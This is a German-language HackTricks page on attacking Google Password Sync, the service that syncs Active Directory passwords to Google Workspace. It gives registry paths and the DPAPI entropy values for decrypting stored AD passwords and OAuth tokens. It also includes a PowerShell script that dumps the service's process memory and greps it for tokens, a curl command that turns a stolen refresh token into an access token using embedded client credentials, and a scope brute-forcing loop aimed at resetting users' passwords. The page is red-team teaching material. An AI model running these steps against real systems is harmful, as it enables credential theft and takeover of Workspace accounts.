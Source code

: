 # GPS - Google Password Sync

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## Grundinformationen

Dies ist die Binärdatei und der Dienst, den Google anbietet, um die **Passwörter der Benutzer zwischen dem AD** und Workspace **synchronisiert zu halten**. Jedes Mal, wenn ein Benutzer sein Passwort im AD ändert, wird es in Google gesetzt.

Es wird in `C:\Program Files\Google\Password Sync` installiert, wo Sie die Binärdatei `PasswordSync.exe` zur Konfiguration und `password_sync_service.exe` (der Dienst, der weiterhin läuft) finden können.

### GPS - Konfiguration

Um diese Binärdatei (und den Dienst) zu konfigurieren, ist es notwendig, **Zugriff auf ein Super Admin-Konto in Workspace** zu gewähren:

* Anmeldung über **OAuth** mit Google, danach wird **ein Token im Registrierungseditor (verschlüsselt) gespeichert**
* Nur verfügbar auf Domänencontrollern mit GUI
* Bereitstellung von **Service Account-Anmeldeinformationen von GCP** (json-Datei) mit Berechtigungen zur **Verwaltung der Workspace-Benutzer**
* Sehr schlechte Idee, da diese Anmeldeinformationen niemals ablaufen und missbraucht werden könnten
* Sehr schlechte Idee, einem SA Zugriff auf Workspace zu gewähren, da der SA in GCP kompromittiert werden könnte und es möglich wäre, zu Workspace zu pivotieren
* Google verlangt dies für domänenkontrollierte Umgebungen ohne GUI
* Diese Anmeldeinformationen werden ebenfalls im Registrierungseditor gespeichert

Bezüglich AD ist es möglich, anzugeben, dass der aktuelle **Anwendungskontext, anonym oder einige spezifische Anmeldeinformationen** verwendet werden sollen. Wenn die Option Anmeldeinformationen ausgewählt ist, wird der **Benutzername** in einer Datei auf der **Festplatte** gespeichert und das **Passwort** ist **verschlüsselt** und im **Registrierungseditor** gespeichert.

### GPS - Dumping Passwort und Token von der Festplatte

{% hint style="success" %}
Beachten Sie, dass [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in der Lage ist, **GPS** zu erkennen, Informationen über die Konfiguration zu erhalten und **sogar das Passwort und Token zu entschlüsseln**.
{% endhint %}

In der Datei **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** ist es möglich, Teile der Konfiguration wie den **`baseDN`** des konfigurierten AD und den **`Benutzernamen`**, dessen Anmeldeinformationen verwendet werden, zu finden.

Im Registrierungseditor **`HKLM\Software\Google\Google Apps Password Sync`** ist es möglich, das **verschlüsselte Refresh-Token** und das **verschlüsselte Passwort** für den AD-Benutzer (falls vorhanden) zu finden. Darüber hinaus, wenn anstelle eines Tokens einige **SA-Anmeldeinformationen** verwendet werden, ist es auch möglich, diese verschlüsselt an dieser Registrierungsadresse zu finden. Die **Werte** in dieser Registrierung sind nur für **Administratoren** **zugänglich**.

Das verschlüsselte **Passwort** (falls vorhanden) befindet sich im Schlüssel **`ADPassword`** und ist mit der **`CryptProtectData`** API verschlüsselt. Um es zu entschlüsseln, müssen Sie der gleiche Benutzer sein wie der, der die Passwortsynchronisierung konfiguriert hat, und diese **Entropie** verwenden, wenn Sie die **`CryptUnprotectData`** verwenden: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Das verschlüsselte Token (falls vorhanden) befindet sich im Schlüssel **`AuthToken`** und ist mit der **`CryptProtectData`** API verschlüsselt. Um es zu entschlüsseln, müssen Sie der gleiche Benutzer sein wie der, der die Passwortsynchronisierung konfiguriert hat, und diese **Entropie** verwenden, wenn Sie die **`CryptUnprotectData`** verwenden: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Darüber hinaus ist es auch mit base32hex unter Verwendung des Wörterbuchs **`0123456789abcdefghijklmnopqrstv`** codiert.

Die Entropiewerte wurden mit dem Tool gefunden. Es wurde konfiguriert, um die Aufrufe von **`CryptUnprotectData`** und **`CryptProtectData`** zu überwachen, und dann wurde das Tool verwendet, um `PasswordSync.exe` zu starten und zu überwachen, das zu Beginn das konfigurierte Passwort und das Auth-Token entschlüsseln wird, und das Tool wird **die Werte für die verwendete Entropie** in beiden Fällen **anzeigen**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Beachten Sie, dass es auch möglich ist, die **entschlüsselten** Werte in den Eingaben oder Ausgaben der Aufrufe dieser APIs zu sehen (für den Fall, dass Winpeas irgendwann nicht mehr funktioniert).

Falls die Passwortsynchronisierung **mit SA-Anmeldeinformationen konfiguriert wurde**, wird sie ebenfalls in Schlüsseln im Registrierungseditor **`HKLM\Software\Google\Google Apps Password Sync`** gespeichert.

### GPS - Dumping Tokens aus dem Speicher

Genau wie bei GCPW ist es möglich, den Speicher des Prozesses von `PasswordSync.exe` und den Prozessen `password_sync_service.exe` zu dumpen, und Sie werden in der Lage sein, Refresh- und Zugriffstoken zu finden (falls sie bereits generiert wurden).\
Ich nehme an, Sie könnten auch die konfigurierten AD-Anmeldeinformationen finden.

<details>

<summary>Dump <code>PasswordSync.exe</code> und die <code>password_sync_service.exe</code> Prozesse und suchen Sie nach Tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Zugriffstoken aus Aktualisierungstoken generieren

Mit dem Aktualisierungstoken ist es möglich, Zugriffstoken zu generieren, indem es zusammen mit der Client-ID und dem Client-Geheimnis verwendet wird, die im folgenden Befehl angegeben sind:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Beachten Sie, dass es selbst mit einem Refresh-Token nicht möglich ist, einen beliebigen Scope für das Access-Token anzufordern, da Sie nur die **Scopes anfordern können, die von der Anwendung unterstützt werden, in der Sie das Access-Token generieren**.

Außerdem ist das Refresh-Token nicht in jeder Anwendung gültig.
{% endhint %}

Standardmäßig hat GPS nicht als Benutzer Zugriff auf jeden möglichen OAuth-Scope. Mit dem folgenden Skript können wir die Scopes finden, die mit dem `refresh_token` verwendet werden können, um ein `access_token` zu generieren:

<details>

<summary>Bash-Skript zum Brute-Forcen von Scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Und dies ist die Ausgabe, die ich zum Zeitpunkt des Schreibens erhalten habe:
```
https://www.googleapis.com/auth/admin.directory.user
```
Welches dasselbe ist, das Sie erhalten, wenn Sie keinen Geltungsbereich angeben.

{% hint style="danger" %}
Mit diesem Geltungsbereich könnten Sie **das Passwort eines bestehenden Benutzers ändern, um Berechtigungen zu eskalieren**.
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
